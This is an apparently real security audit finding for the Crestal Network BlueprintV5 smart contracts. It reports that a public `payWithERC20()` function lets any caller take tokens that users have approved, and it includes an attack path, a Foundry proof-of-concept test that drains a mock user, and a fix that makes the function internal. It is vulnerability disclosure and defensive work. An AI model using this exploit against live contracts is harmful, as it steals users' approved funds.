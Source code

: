 Active Cloth Tortoise

High

# Any attacker can steal tokens from users that approve the BlueprintV5 as a spender

### Summary

The `payWithERC20()` is public, and the caller has control over the `from` and `to` input addresses. 

Users need to approve the BlueprintV5 as a spender of payment tokens before using functions that require a payment (`userTopUp()`, `createAgentWithToken()`, `updateWorkerDeploymentConfigCommon()`, and more). 

Between the moment the user approves and the moment when the user calls one of the spending functions above, any attacker can call `payWithERC20()` and steal the approved tokens from the user.

### Root Cause

The function `payWithERC20()` should be marked as `internal`. This function is located in the `src/Payment.sol` contract and inherited by `BlueprintCore`.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25

### Internal Pre-conditions

None.

### External Pre-conditions

1. User approves the Blueprint as a spender of payment tokens (required to use other functions in the system). 

### Attack Path

The attacker can simply call  `payWithERC20()` with the following arguments:
  - `erc20TokenAddress`: the approved payment token
  - `amount`: the approved amount
  - `fromAddress`: the address of the user that has approved Blueprint as spender
  - `toAddress`: the address of the attacker 

### Impact

The user loses all of the approved funds to the attacker.

### PoC

The following test can be added to the existing test contract in `test/BlueprintV5.t.sol`:

```solidity
contract BlueprintTest is Test {

    // ... 

    function test_poc_stealApprovedTokens() public {
        address user = makeAddr("user");
        address attacker = makeAddr("attacker");

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));
        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;
        // the user has some payment tokens
        mockToken.mint(user, validTokenAmount);

        // PRE CONDITIONS
        // the user approves the blueprint contract to spend tokens
        vm.prank(user);
        mockToken.approve(address(blueprint), validTokenAmount);

        // THE ATTACK
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, user, attacker);

        // VALIDATION OF FINAL STATE: attacker has stolen all of the approved
        assertEq(mockToken.balanceOf(user), 0);
        assertEq(mockToken.balanceOf(attacker), validTokenAmount);
    }
```


### Mitigation

The `payWithERC20()` should be marked as `internal` 

```diff
-   function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+   function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
        // @audit any contract that approves this contract will be exploitable by anyone
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```